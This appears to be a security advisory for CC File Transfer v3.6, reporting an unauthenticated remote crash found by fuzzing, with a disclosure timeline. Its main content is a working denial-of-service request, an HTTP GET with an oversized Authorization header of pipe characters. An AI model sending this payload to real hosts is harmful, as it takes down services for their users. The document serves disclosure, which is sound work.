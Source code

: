# introduction

CC File Transfer is free web based file transfer software built for people that need to transfer files PC to PC regularly. It 
helps you ashare files, photos, music and video with your friends. This file transfer program eliminates the hassles of FTP 
and limitations of email file transfer especially for transferring large files. The simple interface makes transferring files 
as easy as dragging and dropping files. It can transfer files over the Internet or LAN/home network even transfer files from 
Windows to Linux / Mac OS. 

http://www.ccfile.net/index.htm

# affected programs & issues

CCFile Windows Binary - v3.6

Tested on:  
Windows XP Professional Service Pack 3  
Windows 7 Professional Service Pack 1  

The web-based software allows a malicious user to remotely crash the service without authentication

# discovery

author: sec.9emin1@gmail.com  
discovered by: sec.9emin1@gmail.com  

The vulnerabilities were discovered using the Peach Fuzzer Community Edition  
https://www.peach.tech

# issue demonstrationaa

The following HTTP GET request will crash the service remotely:    
```
GET /download.htm?file= HTTP/1.1
User-Agent: Mozilla/4.0
Host: 172.16.6.133:80
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Referer: http://172.16.6.133/
Authorization: Basic 
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||
Conection: Keep-Alive
```

# progress
 
080817 - Vendor Notified  
090817 - Vendor Acknowledged and responded with no intention to fix
